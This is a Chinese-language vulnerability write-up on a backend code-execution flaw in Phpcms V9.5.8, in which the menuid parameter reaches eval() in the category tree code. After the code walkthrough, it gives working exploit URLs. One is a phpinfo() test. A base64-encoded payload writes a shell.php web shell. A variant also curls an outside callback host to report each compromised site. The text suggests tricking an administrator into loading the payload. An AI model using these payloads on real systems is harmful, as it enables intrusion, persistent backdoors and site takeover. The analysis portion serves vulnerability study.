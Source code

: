 Phpcms V9.5.8 后台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.5.8

三、复现过程
------------

### 漏洞分析

代码位于`/phpcms/modules/content/content.php` 第472-532行

    public function public_categorys() {
        $show_header = '';
        $cfg = getcache('common','commons');
        $ajax_show = intval($cfg['category_ajax']);
        $from = isset($_GET['from']) && in_array($_GET['from'],array('block')) ? $_GET['from'] : 'content';
        $tree = pc_base::load_sys_class('tree');
        if($from=='content' && $_SESSION['roleid'] != 1) { 
            $this->priv_db = pc_base::load_model('category_priv_model');
            $priv_result = $this->priv_db->select(array('action'=>'init','roleid'=>$_SESSION['roleid'],'siteid'=>$this->siteid,'is_admin'=>1));
            $priv_catids = array();
            foreach($priv_result as $_v) {
                $priv_catids[] = $_v['catid'];
            }
            if(empty($priv_catids)) return '';
        }
        $categorys = array();
        if(!empty($this->categorys)) {
            foreach($this->categorys as $r) {
                if($r['siteid']!=$this->siteid ||  ($r['type']==2 && $r['child']==0)) continue;
                if($from=='content' && $_SESSION['roleid'] != 1 && !in_array($r['catid'],$priv_catids)) {
                    $arrchildid = explode(',',$r['arrchildid']);
                    $array_intersect = array_intersect($priv_catids,$arrchildid);
                    if(empty($array_intersect)) continue;
                }
                if($r['type']==1 || $from=='block') {
                    if($r['type']==0) {
                        $r['vs_show'] = "<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=".$r['catid']."&type=show' target='right'>[".L('content_page')."]</a>";
                    } else {
                        $r['vs_show'] ='';
                    }
                    $r['icon_type'] = 'file';
                    $r['add_icon'] = '';
                    $r['type'] = 'add';
                } else {
                    $r['icon_type'] = $r['vs_show'] = '';
                    $r['type'] = 'init';
                    $r['add_icon'] = "<a target='right' href='?m=content&c=content&menuid=".$_GET['menuid']."&catid=".$r['catid']."' onclick=javascript:openwinx('?m=content&c=content&a=add&menuid=".$_GET['menuid']."&catid=".$r['catid']."&hash_page=".$_SESSION['hash_page']."','')><img src='".IMG_PATH."add_content.gif' alt='".L('add')."'></a> ";
                }
                $categorys[$r['catid']] = $r;
            }
        }
        if(!empty($categorys)) {
            $tree->init($categorys);
                switch($from) {
                    case 'block':
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=list' target='right'>\$catname</a> \$vs_show</span>";
                        $strs2 = "<img src='".IMG_PATH."folder.gif'> <a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=category' target='right'>\$catname</a>";
                    break;
     
                    default:
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=content&c=content&a=\$type&menuid=".$_GET['menuid']."&catid=\$catid' target='right' onclick='open_list(this)'>\$catname</a></span>";
                        $strs2 = "<span class='folder'>\$catname</span>";
                        break;
                }
            $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);
        } else {
            $categorys = L('please_add_category');
        }
        include $this->admin_tpl('category_tree');
        exit;
    }

复制 文本

在当前函数开始下个断点

![1.png](./.resource/PhpcmsV9.5.8后台getshell/media/rId25.png)![2.png](./.resource/PhpcmsV9.5.8后台getshell/media/rId26.png)

跟到526行：

    $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);

复制 文本

进入了`get_treeview()`函数，跟入进去，

函数位于 `/phpcms/libs/classes/tree.class.php` 第206-239行。

    * @param $myid 表示获得这个ID下的所有子级
    * @param $effected_id 需要生成treeview目录数的id
    * @param $str 末级样式
    * @param $str2 目录级别样式
    * @param $showlevel 直接显示层级数，其余为异步显示，0为全部限制
    * @param $style 目录样式 默认 filetree 可增加其他样式如'filetree treeview-famfamfam'
    * @param $currentlevel 计算当前层级，递归使用 适用改函数时不需要用该参数
    * @param $recursion 递归使用 外部调用时为FALSE
    function get_treeview($myid,$effected_id='example',$str="<span class='file'>\$name</span>", $str2="<span class='folder'>\$name</span>" ,$showlevel = 0 ,$style='filetree ' , $currentlevel = 1,$recursion=FALSE) {
         $child = $this->get_child($myid);
         if(!defined('EFFECTED_INIT')){
            $effected = ' id="'.$effected_id.'"';
            define('EFFECTED_INIT', 1);
         } else {
            $effected = '';
         }
         $placeholder =  '<ul><li><span class="placeholder"></span></li></ul>';
         if(!$recursion) $this->str .='<ul'.$effected.'  class="'.$style.'">';
         foreach($child as $id=>$a) {
     
             @extract($a);
             if($showlevel > 0 && $showlevel == $currentlevel && $this->get_child($id)) $folder = 'hasChildren'; //如设置显示层级模式@2011.07.01
             $floder_status = isset($folder) ? ' class="'.$folder.'"' : '';     
             $this->str .= $recursion ? '<ul><li'.$floder_status.' id=\''.$id.'\'>' : '<li'.$floder_status.' id=\''.$id.'\'>';
             $recursion = FALSE;
             if($this->get_child($id)){
                 eval("\$nstr = \"$str2\";");
                 $this->str .= $nstr;
                 if($showlevel == 0 || ($showlevel > 0 && $showlevel > $currentlevel)) {
                     $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);
                 } elseif($showlevel > 0 && $showlevel == $currentlevel) {
                     $this->str .= $placeholder;
                 }
             } else {
                 eval("\$nstr = \"$str\";");
                 $this->str .= $nstr;
             }
             $this->str .=$recursion ? '</li></ul>': '</li>';
         }
         if(!$recursion)  $this->str .='</ul>';
         return $this->str;
     }

复制 文本

这里有个判断：

    if($this->get_child($id))

![3.png](./.resource/PhpcmsV9.5.8后台getshell/media/rId27.png)

当第一次执行为ture的时候，还是会再次执行`get_treeview`的内容

    $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);

第二次执行的时候`$myid`由0变成了1，

这时候的`$newarr`为空，

if就不执行，转而执行elseif和else，而`$str`包含着`menuid`的值，也就是`${@phpinfo()}`
，这时候`eval()` 就执行了php代码。

### 漏洞复现

**常规poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@phpinfo()}`

**进阶版poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@(assert(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycpOw)))}`

> 密码1，这要管理员权限才能代码执行，修改下payload，管理员一访问就在当前域名的首页路径下生成shell。

`print_r(base64_encode("fputs(fopen('shell.php','w'),'<?php eval(\$_POST[2]);');system('curl '.\$_SERVER[\"SERVER_NAME\"].'www.0-sec.org');"));`

> 还有另一种payload，会回显的提醒。自动curl请求你的域名，然后回显网站url
>
> 先输出base64的地址，然后在替换下面的字符串> `https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=(${@(assert(eval(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMl0pOycpO3N5c3RlbSgnY3VybCAnLiRfU0VSVkVSWyJTRVJWRVJfTkFNRSJdLic0MzIxLm5yY3VmOS5jZXllLmlvJyk7))))})`

这个字符串有几个点提醒下自己，` assert()`函数执行执行一句php代码，所以在assert前面加个eval，执行多条语句。

参考链接
--------

> https://www.mrwu.red/web/2723.html
